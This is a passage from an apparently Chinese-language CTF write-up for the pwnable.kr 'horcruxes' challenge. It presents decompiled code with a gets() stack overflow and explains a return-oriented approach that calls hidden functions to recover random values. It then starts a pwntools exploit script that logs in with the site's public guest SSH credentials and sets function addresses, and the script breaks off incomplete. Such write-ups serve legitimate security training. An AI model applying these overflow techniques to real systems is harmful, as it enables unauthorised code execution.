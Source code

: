 ## 0x15 horcruxes

逆向后核心源码

```cpp
int ropme()
{
  char s[100]; // [esp+4h] [ebp-74h]
  int v2; // [esp+68h] [ebp-10h]
  int fd; // [esp+6Ch] [ebp-Ch]

  printf("Select Menu:");
  __isoc99_scanf("%d", &v2);
  getchar();
  if ( v2 == a ) A();
  else if ( v2 == b ) B();
  else if ( v2 == c ) C();
  else if ( v2 == d ) D();
  else if ( v2 == e ) E();
  else if ( v2 == f ) F();
  else if ( v2 == g ) G();
  else
  {
    printf("How many EXP did you earned? : ");
    gets(s);//存在栈溢出
    if ( atoi(s) == sum )
    {
      fd = open("flag", 0);
      s[read(fd, s, 0x64u)] = 0;
      puts(s);
      close(fd);
      exit(0);
    }
    puts("You'd better get more experience to kill Voldemort");
  }
  return 0;
}
```

题目思路是拿到a,b,c,d,e,f,g的值，来得到flag

a,b,c,d,e,f,g随机

直接绕过判断是不行的，main里的seccomp把可绕过的地址都封死了

还是利用gets栈溢出，去调用A,B,C,D,E,F,G的函数来得到对应值，然后再跳回来输入对应的EXP

**Exp**

```python
#coding=utf-8
from pwn import *
context(arch="amd64",os="Linux",log_level="DEBUG")

shell = ssh(host="pwnable.kr",user="horcruxes",port=2222,password="guest")

#shell.download_file("./horcruxes")

io=shell.connect_remote("0.0.0.0",9032)

payload="1"
#io.sendlineafter("guess the password!","cat: password: Permission denied")
io.recv()
io.sendline(payload)

a_addr=0x0809FE4B
b_addr=0x0809FE6A
```